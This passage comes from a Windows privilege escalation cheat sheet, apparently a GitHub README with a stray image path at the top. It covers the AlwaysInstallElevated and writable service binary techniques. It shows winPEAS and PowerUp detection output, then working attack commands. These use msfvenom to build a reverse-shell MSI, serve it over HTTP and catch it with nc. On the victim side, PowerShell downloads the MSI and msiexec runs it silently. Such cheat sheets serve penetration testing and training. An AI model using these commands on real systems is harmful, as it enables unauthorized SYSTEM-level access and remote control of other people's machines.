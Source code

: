 - or
  - 
    ```
    winPEAS.exe

    [+] Checking AlwaysInstallElevated(T1012)

      AlwaysInstallElevated set to 1 in HKLM!
      AlwaysInstallElevated set to 1 in HKCU!
    ```

- Exploitation
- Attacker
- 
  ```
  msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f msi > program.msi
  sudo python -m SimpleHTTPServer 80
  sudo nc -lvp <PORT>
  ```

- Victim
- 
  ```
  powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/program.msi', 'C:\Temp\program.msi')
  msiexec /quiet /qn /i C:\Temp\program.msi
  ```

##### Executable Files
- Detection
- 
  ```
  powershell -exec bypass -command "& { Import-Module .\PowerUp.ps1; Invoke-AllChecks; }"

  [*] Checking service executable and argument permissions...

  ServiceName                     : filepermsvc
  Path                            : "C:\Program Files\File Permissions Service\filepermservice.exe"
  ModifiableFile                  : C:\Program Files\File Permissions Service\filepermservice.exe
  ModifiableFilePermissions       : {ReadAttributes, ReadControl, Execute/Traverse, DeleteChild...}
  ModifiableFileIdentityReference : Everyone
  StartName                       : LocalSystem
  AbuseFunction                   : Install-ServiceBinary -Name 'filepermsvc'
  CanRestart                      : True
  ```

- or
- 
  ```
  winPEAS.exe

  [+] Interesting Services -non Microsoft-(T1007)

  filepermsvc(Apache Software Foundation - File Permissions Service)["C:\Program Files\File Permissions Service\filepermservice.exe"] - Manual - Stopped
    File Permissions: Everyone [AllAccess]
  ```
